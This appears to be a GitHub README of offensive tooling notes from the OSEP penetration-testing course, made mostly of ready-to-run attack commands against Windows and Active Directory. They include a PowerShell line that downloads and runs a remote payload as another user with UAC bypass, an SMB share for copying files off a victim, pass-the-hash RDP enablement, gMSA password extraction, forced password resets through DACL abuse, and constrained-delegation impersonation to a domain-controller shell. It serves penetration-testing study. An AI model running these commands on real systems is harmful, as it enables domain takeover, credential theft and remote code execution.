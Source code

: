 Just a bunch of tools built/gathered along the OSEP course.

# <ins>Useful Basic Commands</ins>:

### <ins>Run command as another user</ins>:
- `Invoke-RunasCs amit 'Password123!' 'powershell iex(iwr http://192.168.45.185/rev.txt -usebasicparsing)' -ForceProfile -CreateProcessFunction 2 -BypassUac`

### <ins>Set up SMB server (file transfer)</ins>:
- `smbserver.py share $(pwd) -smb2support -username amit -password password`
- On Victim: `net use \\192.168.45.223\share /U:amit password`
- Copy files: `copy <FILENAME> \\192.168.45.223\share`

### <ins>Enable RDP and RestrictedAdmin from both Local/Remote</ins>:

Using command prompt: 
- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f && reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0 && netsh firewall set service remoteadmin enable && netsh firewall set service remotedesktop enable` 

Using netexec:
- `netexec smb db01 -u administrator -H faf3185b0a608ce2f8afb6f8d133f85b --local-auth -X 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f;reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0;netsh firewall set service remoteadmin enable;netsh firewall set service remotedesktop enable' --exec-method atexec`

### <ins>RDP to host using xfreerdp</ins>:
- `xfreerdp /v:172.16.231.221 /u:amit /p:'Password123!' +dynamic-resolution +clipboard`

# <ins>BloodHound Dacls Abuse</ins>

### GMSAPasswordReader

Decrypt the gmsa password

    1. $gmsa = Get-ADServiceAccount -Identity bir-adfs-gmsa -Properties msDS-ManagedPassword
    2. $mp = $gmsa.'msDS-ManagedPassword'
    $mp // Get the password in numbers
    3. ConvertFrom-ADManagedPasswordBlob $mp

If the clear-text password not appear, let's just use it.

    1. $password = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
    2. $cred = New-Object System.Management.Automation.PSCredential "GroupName" , $password

Now we got the credentials Objects, let's open a new session with the privileged user:

    1. Invoke-Command -ComputerName 127.0.0.1 -cred $cred -ScriptBlock {net user DomainAdminmUser P@ssw0rd1!}
    2. Invoke-Command -ComputerName 127.0.0.1 -Credential $cred -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!' -Force)}

### ForceChangePassword

This Dacl means we can change the user's password without knowing his current one.

Abuse it using rpcclient:

    1. rpcclient -U <username> <ip>
    2. setuserinfo2 <username-we-can-change-password-to> 23 'NewPassword123!'

Change it using PowerView:

    1. $newpass = ConverTo-SecureString 'Password1234!' -AsPlainText -Force
    2. SetDomainPassword -Identity smith -AccountPassword $newpass

### AllowsToDelegate
The constrained delegation primitive allows a principal to authenticate as any user to specific services (found in the msds-AllowedToDelegateTo LDAP property in the source node tab) on the target computer.

Abuse:

    1. impacket-getST.py -spn cifs/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes :67065141d298d67a17ee8626476b20f9
    2. export KRB5CCNAME=Administrator.ccache
    3. impacket-psexec -k -no-pass dc.intelligence.htb
